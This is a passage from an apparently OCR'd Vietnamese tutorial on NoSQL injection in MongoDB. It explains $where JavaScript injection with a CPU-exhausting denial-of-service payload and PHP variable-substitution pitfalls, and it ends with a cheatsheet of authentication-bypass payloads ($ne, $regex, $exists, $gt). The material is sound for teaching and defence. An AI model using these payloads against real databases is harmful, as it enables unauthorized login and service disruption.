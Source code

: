Với SQL injection thông thường, một lỗ hổng tương tự sẽ cho phép kẻ tấn công thực thi các lệnh SQL tùy ý – để lộ hoặc thao túng dữ liệu theo ý muốn. Tuy nhiên, vì JavaScript là một ngôn ngữ có đầy đủ tính năng, điều này không chỉ cho phép kẻ tấn công thao túng dữ liệu mà còn chạy mã tùy ý. Ví dụ: thay vì chỉ gây ra lỗi khi kiểm tra, việc khai thác đầy đủ sẽ sử dụng các ký tự đặc biệt để tạo JavaScript hợp lệ.

Đầu vào này

```javascript!
0; var date = new Date (); do {curDate = new Date ();} while (curDate-date &lt;10000)
```

- được chèn vào $ userInput trong mã ví dụ trên sẽ dẫn đến việc thực thi hàm JavaScript sau. Chuỗi tấn công cụ thể này sẽ yêu cầu toàn bộ cá thể MongoDB thực thi ở mức sử dụng 100% CPU trong 10 giây.

```php!
function() { return obj.credits - obj.debits &lt; 0;var date=new Date(); do{curDate = new Date();}while(curDate-date&lt;10000); }
```

#### Ví dụ 2

- Ngay cả khi đầu vào được sử dụng trong các truy vấn hoàn toàn được làm sạch hoặc được tham số hóa, vẫn có một đường dẫn thay thế trong đó người ta có thể kích hoạt chèn NoSQL. Nhiều phiên bản NoSQL có tên biến dành riêng, độc lập với ngôn ngữ lập trình ứng dụng.
- Ví dụ: trong MongoDB,$ trong đó cú pháp chính nó là một toán tử truy vấn dành riêng. Nó cần được chuyển vào truy vấn chính xác như được hiển thị; bất kỳ thay đổi nào sẽ gây ra lỗi cơ sở dữ liệu. Tuy nhiên, vì $ where cũng là một tên biến PHP hợp lệ, kẻ tấn công có thể chèn mã vào truy vấn bằng cách tạo một biến PHP có tên $ where. Tài liệu PHP MongoDB cảnh báo rõ ràng cho các nhà phát triển:
  - Vui lòng đảm bảo rằng đối với tất cả các toán tử truy vấn đặc biệt (bắt đầu bằng $), bạn sử dụng các dấu ngoặc kép để PHP không cố gắng thay thế $ exist bằng giá trị của biến $ exist.

Ngay cả khi một truy vấn không phụ thuộc vào dữ liệu người dùng nhập vào, chẳng hạn như ví dụ sau, kẻ tấn công có thể khai thác MongoDB bằng cách thay thế toán tử bằng dữ liệu độc hại.

```php!
db.myCollection.find( { $where: function() { return obj.credits - obj.debits < 0; } } );
```

#### Cheatsheet

vượt qua xác thực

```sql!
#in URL
username[$ne]=toto&password[$ne]=toto
username[$regex]=.*&password[$regex]=.*
username[$exists]=true&password[$exists]=true

#in JSON
{"username": {"$ne": null}, "password": {"$ne": null} }
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }
```

SQL - Mongo

```sql!
query = { $where: `this.username == '${username}'` }
```
